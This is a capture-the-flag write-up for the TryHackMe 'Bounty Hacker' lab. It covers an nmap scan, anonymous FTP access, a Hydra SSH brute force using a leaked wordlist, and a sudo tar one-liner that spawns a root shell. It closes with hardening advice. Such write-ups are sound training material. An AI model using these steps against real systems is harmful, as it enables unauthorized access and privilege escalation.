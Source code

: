 # Bounty Hacker - [THM](https://tryhackme.com/room/cowboyhacker)

## 1. Nmap

- Run a port/service scan nmap to enumerate open services.

 ```bash
$ nmap 10.10.32.149 -Pn -sC -sV -T4              
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.23.104.240
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 da:50:aa:3a:49:50:82:4a:0d:7c:93:60:29:79:27:94 (RSA)
|   256 1e:4c:2a:d8:dd:6d:fb:a0:28:c0:98:87:57:5d:1b:6e (ECDSA)
|_  256 b2:2d:44:48:e7:df:73:11:db:af:00:9a:e1:cf:01:f3 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
## 2. Web (port 80)


![Imgur](https://github.com/user-attachments/assets/d526f8a5-23a5-431b-965c-a9217b0c6813)

-nothing interesting

## 3. FTP enumeration (port 21)

- connected to FTP and found **two files**. Downloaded both
  ![img](https://github.com/user-attachments/assets/75595f86-af9e-4617-8ca5-d4752566779b)

 - **File 1**: contains a message with a name
![img](https://github.com/user-attachments/assets/d3eb1d78-1b74-41d8-9dcb-f66e171ca91d)
 - **File 2**: contains a list (wordlist) of possible passwords
   ![img](https://github.com/user-attachments/assets/792ad481-0fdc-4a8e-ad93-78e3957e7d4c)

## 4. Credential discovery & brute force
- Using the password list found in FTP, i perfored a brute-force attempt with **Hydra** against the SSH service.
- Hydra returned a valid password for the discoverd username.
  ![img](https://github.com/user-attachments/assets/17b45d0e-b9df-47ba-b5a4-f19083a5e5b6)

## 5. SSH access - user shell
- logged in  via SSH with discovered credentials and obtained a shell as the user.
  ![img](https://github.com/user-attachments/assets/d9542279-e931-429b-a6ec-2ed8e7fe59d2)

- And i found the user flag
  ![img](https://github.com/user-attachments/assets/dff1be7e-a078-4b42-9086-56a11822770d)


## 6. Privilege escalation
- Checked sudo privileges with sudo -l
  ![img](https://github.com/user-attachments/assets/abb20d05-a1bd-4915-9d00-49bb56e1343a)
- Using known technique ([GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo) entry for tar), I was able to leverage this to spawn a root shell
 ```bash
 $ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
## 7. Root flag
- now i'm a root and i found the root flag
  ![img](https://github.com/user-attachments/assets/f8a86142-8851-4801-94b3-f3b5ce627a70)

## 8. Recommendations
- Don't leave sensitive information (password lists) on anonymous services like FTP. Remove or protect them
- if this were a real service, disable anonymous FTP and tighten file permissions
